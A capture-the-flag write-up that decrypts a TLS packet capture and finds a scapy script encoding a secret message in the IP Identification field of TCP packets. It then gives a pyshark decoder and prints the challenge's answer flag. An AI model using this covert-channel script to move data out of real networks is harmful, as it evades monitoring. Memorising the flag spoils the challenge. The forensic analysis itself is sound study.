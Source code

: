 # covert
>It appears there's been some shady communication going on in our network...

## Tools Used
- Wireshark
- python3

## Method
To start, we're given a pcap(ng) file and a keys.log file, so that should tell us we're gonna be fiddling with Wireshark. 

Opening up Wireshark, we see a lot of TLS packets and not a lot of HTTP so we configure the keys.log file in our Wireshark settings to decrypt this TLS for us. Now the beautiful greens of the HTTP packets are visible! 

Filtering to HTTP packets (of which there are only 6), we spot something interesting; looks like 172.20.10.5 was served a sneakly little python script

![image](https://github.com/user-attachments/assets/0d268e2e-b0c6-4c5d-b68b-a5c8c42cab79)


```python3
from scapy.all import IP, TCP, send
key = ??
dst_ip = "X.X.X.X"
dst_port = ?????
src_ip = "X.X.X.X"
src_port = ?????
def encode_message(message):
    for letter in message:
        ip = IP(dst=dst_ip, src=src_ip, id=ord(letter)*key)
        tcp = TCP(sport=src_port, dport=dst_port)
        send(ip/tcp)
encode_message("????????????")
```

The same host is also browsing (over HTTP2) a firstmonday.org article about Covert channels in the TCP/IP protocol suite (hmm I wonder what this challenge will be about)

We now know to be suspicious of 172.20.10.5's requests over TCP, and if they're using the python script they fetched previously, they're utilizing a 2-digit key to encode their secret messages in the IP section of the TCP packet. The encoding takes a single letter of their message, converts it to decimal, and multiplies it by said key.

The next thing to do is to start snooping around 172.20.10.5's TCP connections and pay extra attention to the IP header contents

![Peek 2024-09-20 02-26](https://github.com/user-attachments/assets/ee704806-84af-4299-9607-5ca6f005c980)

Ain't that strange... Looks like there's something going on with the Identification field. Let's analyze this bad boy in Python and see what happens

```python3
import pyshark

def IPidTCPCovertChannel(packets_of_interest: list[int], flag_format: str, keylog_file: str=None) -> str:
    if keylog_file:
        cap = pyshark.FileCapture("chall.pcapng", override_prefs={"ssl.keylog_file": keylog_file})
    else:
        cap = pyshark.FileCapture("chall.pcapng")

    ip_ids_hex = []
    for idx in packets_of_interest:
        try:
            ip_ids_hex.append(cap[idx].ip.id)
        except AttributeError:
            pass

    #assuming this will give us the flag outright, we know it starts with csaw{ and ends with }
    str_ = ""
    for idx in range(len(ip_ids_hex)):
        #convert hex str ip_id_hex to decimal number ip_id_dec
        ip_id_dec = int(ip_ids_hex[idx], 16)
        #0 is divisible by everything and if we let a zero pass, we're gonna get a divide by zero error, so let's ignore naughty zeros
        if not ip_id_dec: continue
        #we're working with factors of idx, ensure that ip_id is divisible by idx
        if ip_id_dec % ord(flag_format[0]) == 0:
            key = ip_id_dec // ord(flag_format[0])
            if chr(ip_id_dec // key) == flag_format[0]: break
            #TODO may want to store all potentially valid keys in an array in case of false positives

    for idx in range(idx, len(ip_ids_hex)):
        str_ += chr(int(ip_ids_hex[idx], 16) // key)
        if str_[-1] == "}": break

    print(str_)

    return str_

if __name__ == "__main__":
    packets_of_interest = list(range(256, 306))
    flag_format = "csawctf{"
    keylog_file = "keys.log"
    flag = IPidTCPCovertChannel(packets_of_interest, flag_format, keylog_file=keylog_file)
```

Since we know the flag should start with 'c' (decimal 99), we can go letter by letter, checking if our encoded characters are divisible by 99 and, if so, check if the ASCII representation of said division is the character 'c'. If the previous conditions are true, it's probably our flag. 

And just like magic, after running the script, we get: csawctf{licen$e_t0_tr@nsmit_c0vertTCP$$$}

